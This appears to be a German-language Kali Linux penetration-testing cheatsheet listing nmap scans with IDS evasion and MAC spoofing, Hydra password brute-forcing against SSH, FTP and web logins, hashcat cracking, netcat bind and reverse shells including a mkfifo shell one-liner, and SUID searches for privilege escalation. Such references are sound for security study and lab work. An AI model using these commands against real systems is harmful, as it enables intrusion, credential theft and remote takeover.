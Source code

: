 # Kali Cheatsheet

# Information Gathering

---

## Scans:

### Nmap

Aggressive:

```bash
nmap -A 127.0.0.1 -v
```

(Erzeugt sehr viel Traffic)

SYN:

```bash
nmap -sS -F 127.0.0.1 -v
```

(Schnell aber nicht umbedingt präzise dafür unwahrscheinlicher geloggt zu werden)

ACK:

```bash
nmap -sA -F 127.0.0.1 -v
```

(Paketfilter umgehen)

UDP:

```bash
nmap -sU -F 127.0.0.1 -v
```

Firewall erkennen:

```
nmap --badsum 127.0.0.1
```

Mac spoofing (Anonymisiert scan):

```
nmap --spoof-mac 00:11:22:33:44:55 127.0.0.1
```

IDS umgehen:

```
nmap -T2 -f 127.0.0.1
```

### Gobuster

Gobuster scan:

```bash
gobuster dir -u 127.0.0.1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### Exiftools

Metadaten auslesen:

```bash
exiftool picture.png
```

Binwalk (Binary Daten exportieren):

```bash
binwalk -e picture.png
```

### Sonstiges:

whois -> DNS records
nslookup -> IP Adressen/Mailserver/TXT für DNS
dig -> Krasseres nslookup
DNSDumpster -> Findet Subdomains
Shodan.io -> DNS

# Exploiting

---

## Bruteforce/Dictionary:

### Hydra

SSH:

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh -t 4 -V
```

With 4 Threads

FTP:

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://127.0.0.1 -V
```

HTTP:

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:Invalid Password!" -V
```

Paar Flags:  
 -f : Stoppt wenn PW gefunden  
\-s : Port

### Crunch

Generiert Bruteforce Wordlists:

crunch min max charset

```
crunch 1 3 0123456789!()/$%& -o wordlist.txt
```

### CeWL

Generiert Wordlists von Webseiten Content

```
cewl http://127.0.0.1 -w output.txt
```

Flasgs:

- \-m Min Password length -x Max Password length
- \-d Depth of spider (Wie viele Unterseiten sich angeschaut werden)
- \-a Wenn hinter login
- \--with-numbers fügt Nummern hinzu

### Hashcat

SHA256

```bash
hashcat -a 0 -w 4 -m 1400 --session hash_session hash.hash /usr/share/wordlists/rockyou.txt
```
## Netcat

Listening shell:
```bash
nc -lvnp 4000
```

Ohne -e:
```bash
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 1234 > /tmp/f
```

Reverse shell:
```bash
nc -e "/bin/bash" ip port
```
Ohne -e
```bash
nc host.example.com 1234
(shell prompt from host.example.com)
```

# Privilege Escalation

---

Datei mit SUID bit gesetzt:
```bash
find / -user root -perm -4000 -print 2>/dev/null | head -20
```

Falsch konfigurierte Dateiattribute:
```bash
find / -type f -perm 0777
```
